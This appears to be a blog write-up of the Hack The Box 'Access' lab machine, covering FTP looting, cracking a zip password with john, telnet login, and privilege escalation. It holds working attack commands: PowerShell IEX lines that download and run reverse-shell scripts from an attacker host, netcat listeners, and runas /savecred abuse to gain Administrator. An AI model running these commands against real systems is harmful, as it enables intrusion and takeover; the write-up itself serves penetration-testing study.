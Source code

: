 ```yaml
---
layout: post
title: "Access"
date: 2025-04-20 
categories: CPTS Playlist
---
```


# Access

## Summary

• ftp anonymous login
• wget to get files
• john to crack password
• strings to create wordlist from db file
• mdb-tables
• custom script to output tables into files
• 7z to see encryption methods in zip files
• IEX to download and execute files
• abusing runas and savecred

## Attack Path

First let’s enumerate the open ports and services:

```bash
sudo nmap -sC -sV -oN nmap/access 10.10.10.98

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 425 Cannot open data connection.
23/tcp open  telnet?
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: MegaCorp
|_http-server-header: Microsoft-IIS/7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Let’s check out anon authentication for ftp:

```bash
ftp 10.10.10.98

#we are in
cd Backup
binary    #need binary mode since the db data is binary, otherwise risk corruption
get backup.mdb
cd ../Engineer
get "Access Control.zip"
```

Another way to download:

```bash
wget -m --no-passive ftp://anonymous:anonymous@10.10.10.98
```

We have a microsoft database:

```bash
file backup.mdb

backup.mdb: Microsoft Access Database

mdb-tables backup.mdb

#db is corrupt

mdb-export backup.mdb auth_user
id,username,password,Status,last_login,RoleID,Remark
25,"admin","admin",1,"08/23/18 21:11:47",26,
27,"engineer","access4u@security",1,"08/23/18 21:13:36",26,
28,"backup_admin","admin",1,"08/23/18 21:14:02",26,

#if we done this step, we immediately get the password
```

Let’s just use strings:

```bash
strings -n 8 backup.mdb
```

![image.png]({{ site.baseurl }}/assets/access/image.png)

It should contain some sort of password. Let’s keep that in mind and create a wordlist:

```bash
strings -n 8 backup.mdb > pwlist
```

The zip file requires a password:

```bash
7z e Access\ Control.zip 

7-Zip 24.09 (x64) : Copyright (c) 1999-2024 Igor Pavlov : 2024-11-29
 64-bit locale=en_US.UTF-8 Threads:6 OPEN_MAX:1024, ASM

Scanning the drive for archives:
1 file, 10870 bytes (11 KiB)

Extracting archive: Access Control.zip
--
Path = Access Control.zip
Type = zip
Physical Size = 10870

    
Enter password (will not be echoed):

```

Let’s convert it to john hash:

```bash
zip2john "Access Control.zip" > access.hash
```

Now let’s see if there are any strings from the db that matches the password:

```bash
john --wordlist=pwlist access.hash

access4u@security (Access Control.zip/Access Control.pst)
```

Success!

We get a pst file:

```bash
file Access\ Control.pst 

Access Control.pst: Microsoft Outlook Personal Storage (>=2003, Unicode, version 23), dwReserved1=0x234, dwReserved2=0x22f3a, bidUnused=0000000000000000, dwUnique=0x39, 271360 bytes, bCryptMethod=1, CRC32 0x744a1e2e
```

Let’s convert it to mbox format so we can read it with evolution:

```bash
readpst Access\ Control.pst

open 'Access Control.mbox'
```

Now open it in evolution after importing it from the pop up prompt.

![image.png]({{ site.baseurl }}/assets/access/image%201.png)

There’s the web page and port 23 which we haven’t checked out yet. Let’s look at the web page

![image.png]({{ site.baseurl }}/assets/access/image%202.png)

Let’s fuzz the server:

```bash
feroxbuster -u http://10.10.10.98/

301      GET        2l       10w      156c http://10.10.10.98/aspnet_client => http://10.10.10.98/aspnet_client/
200      GET      274l     1766w   162337c http://10.10.10.98/out.jpg
200      GET       14l       31w      391c http://10.10.10.98/
301      GET        2l       10w      156c http://10.10.10.98/Aspnet_client => http://10.10.10.98/Aspnet_client/
301      GET        2l       10w      156c http://10.10.10.98/aspnet_Client => http://10.10.10.98/aspnet_Client/
301      GET        2l       10w      167c http://10.10.10.98/aspnet_client/system_web => http://10.10.10.98/aspnet_client/system_web/
301      GET        2l       10w      156c http://10.10.10.98/ASPNET_CLIENT => http://10.10.10.98/ASPNET_CLIENT/
301      GET        2l       10w      167c http://10.10.10.98/Aspnet_client/system_web => http://10.10.10.98/Aspnet_client/system_web/

```

![image.png]({{ site.baseurl }}/assets/access/image%203.png)

Let’s check out port 23. Nmap tells us that it’s potentially using telnet. Let’s try:

```bash
telnet 10.10.10.98 23
```

![image.png]({{ site.baseurl }}/assets/access/image%204.png)

Let’s try the security login:

```bash
security:4Cc3ssC0ntr0ller
```

We are in:

![image.png]({{ site.baseurl }}/assets/access/image%205.png)

```bash
dir C:\

08/23/2018  11:05 PM    <DIR>          inetpub
07/14/2009  04:20 AM    <DIR>          PerfLogs
08/23/2018  09:53 PM    <DIR>          Program Files
08/24/2018  08:40 PM    <DIR>          Program Files (x86)
08/24/2018  08:39 PM    <DIR>          temp
08/21/2018  11:31 PM    <DIR>          Users
07/14/2021  02:04 PM    <DIR>          Windows
08/22/2018  08:23 AM    <DIR>          ZKTeco
```

We do not have any privileges on the machine.

Let’s get a better shell like ConPTYShell.

```bash
cp /home/kali/tools/Invoke-ConPtyShell.ps1 shell.ps1

python3 -m http.server 8001
```

Now start a listener:

```bash
stty raw -echo; (stty size; cat) | nc -lvnp 3001

```

On the telnet shell:

```bash

powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.16.7:8001/shell.ps1')

```

Does not work.  Let’s just try a simple shell from nishang; change the IP and port to our desired:

```bash
#attack host
nc -lnvp 4444

#target
powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.16.7:8001/rev.ps1')
```

We now have a better shell:

![image.png]({{ site.baseurl }}/assets/access/image%206.png)

```bash
cmdkey /list

Currently stored credentials:

    Target: Domain:interactive=ACCESS\Administrator
    Type: Domain Password
    User: ACCESS\Administrator
```

We can run commands as Administrator:

```bash
runas /savecred /user:ACCESS\Administrator "whoami"

runas /savecred /user:ACCESS\Administrator "dir"

```

Because we are in a reverse shell, normal stdin/out are not outputted to us. Let’s get another reverse shell:

```bash
powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.16.7:8001/rev2.ps1')

runas /savecred /user:ACCESS\Administrator "powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.16.7:8001/rev2.ps1')"

#if this doesn't work, try powershell encoding
```

We now have Administrator shell.